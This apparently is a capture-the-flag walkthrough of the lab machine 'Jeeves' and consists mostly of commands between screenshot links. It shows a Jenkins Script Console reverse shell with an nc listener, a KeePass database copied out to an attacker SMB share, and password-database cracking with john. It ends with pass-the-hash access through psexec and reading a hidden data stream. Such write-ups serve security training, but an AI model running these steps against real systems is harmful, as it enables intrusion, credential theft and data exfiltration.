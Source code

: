 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.63
```
![image](https://github.com/user-attachments/assets/d6384270-9642-4d95-8b0d-c23bf27eaf3a)

```
10.10.10.63
Input '
```
![image](https://github.com/user-attachments/assets/a59fd11c-2e7e-4193-97be-a5a9b13ed805)

![image](https://github.com/user-attachments/assets/7e80e98a-f388-475c-8b61-e671824c2fb0)

```
http://10.10.10.63:50000/
Jetty 9.4.z-SNAPSHOT![image](https://github.com/user-attachments/assets/55d682c3-345c-4a12-a830-95b419c50912)
```
![image](https://github.com/user-attachments/assets/edbcca3b-a396-4ed8-bd71-7b0cb86b4607)

```
http://10.10.10.63:50000/askjeeves/
```
![image](https://github.com/user-attachments/assets/08705629-c3d3-46d2-ac60-839ceef69656)


```
Script Console
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76#file-revsh-groovy
```
![image](https://github.com/user-attachments/assets/35f56ef6-df64-4a95-8847-53854f95cf57)

```
nc -lnvp 1234
```
![image](https://github.com/user-attachments/assets/36aa2208-bd91-4886-b4a9-834abddf346a)

![image](https://github.com/user-attachments/assets/b067c379-eaa2-43f3-bdd2-a654d79c9eb1)

```
C:\Users\kohsuke\Documents - CEH.kdbx
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.6\s /u:df df
copy CEH.kdbx \\10.10.14.6\s\CEH.kdbx
```
![image](https://github.com/user-attachments/assets/c80afcce-8d01-4a0f-b4b9-7b9881b5c8d7)

![image](https://github.com/user-attachments/assets/4450ba19-f687-4b53-a5b6-2a13c816c165)

![image](https://github.com/user-attachments/assets/61661a41-6c09-4cf4-9cef-62c3889a1d1c)

```
keepass2john CEH.kdbx > hash.txt
john hash.txt -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/59eedc8b-b643-435e-bcec-24efd25f5d0a)

![image](https://github.com/user-attachments/assets/7c1bc45a-b0a3-4b41-b509-95977780944c)

```
keepassxc
```
![image](https://github.com/user-attachments/assets/3f1639bd-593e-4a72-a92b-1b771d06e14b)

```
Backup stuff
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
```
![image](https://github.com/user-attachments/assets/afbdc1a8-095d-4e29-ac10-53b2aa0f5635)

![image](https://github.com/user-attachments/assets/87035c2e-6539-461d-bbfc-34a28489f536)

```
dir /r
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
![image](https://github.com/user-attachments/assets/879b5159-06d8-4205-b90e-1d5aa938fd07)
